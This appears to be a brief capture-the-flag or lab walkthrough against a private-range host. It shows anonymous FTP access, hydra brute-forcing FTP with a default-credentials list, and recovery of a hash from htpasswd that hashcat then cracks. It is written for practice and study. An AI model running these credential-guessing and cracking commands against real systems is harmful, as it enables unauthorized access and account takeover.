




We can anonymous login to FTP:


Now trying to bruteforce ftp:
```
hydra -C /usr/share/wordlists/seclists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt ftp://192.168.164.46:21/
```

We have admin:admin

Now trying to access ftp as admin we find new files:

We find a password hash in htpasswd.


Using hashcat:
```
hashcat hashes.txt '/home/aditya/Documents/Kali/rockyou.txt' -O
```


We have the password.

Now we can login to the website at port [[242]]

